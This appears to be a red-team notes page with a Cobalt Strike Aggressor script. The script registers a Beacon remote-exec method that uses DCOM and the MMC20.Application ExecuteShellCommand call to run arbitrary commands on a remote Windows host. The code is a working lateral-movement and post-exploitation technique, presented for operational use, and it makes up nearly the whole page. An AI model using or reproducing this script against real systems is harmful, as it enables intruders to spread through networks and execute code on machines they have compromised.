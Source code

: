 # Remote-Exec

Search Tag(s): #helpers #command-and-control #post-exploitation #lateral-movement #cobalt-strike

TODO: Provide more aggressor scripts for remote-exec lateral movement

## DCOM

`$ cat dcom-remote-exec.cna`

---

```perl
sub mmc20_exec_method {
   local('$script $command $args');

   # state what we're doing.
   btask($1, "Tasked Beacon to run $3 on $2 via DCOM", "T1175");

   # separate our command and arguments
   if ($3 ismatch '(.*?) (.*)') {
      ($command, $args) = matched();
   }
   else {
      $command = $3;
      $args    = "";
   }
    
   # build script that uses DCOM to invoke ExecuteShellCommand on MMC20.Application object
   $script  = '[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "';
   $script .= $2;
   $script .=  '")).Document.ActiveView.ExecuteShellCommand("';
   $script .= $command;
   $script .= '", $null, "';   
   $script .= $args;
   $script .= '", "7");';

   # run the script we built up
   bpowershell!($1, $script, "");
}

beacon_remote_exec_method_register("com-mmc20", "Execute command via MMC20.Application COM Object", &mmc20_exec_method);
```

---
## References

- [Aggressor Script: Beacon](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as_beacon.htm)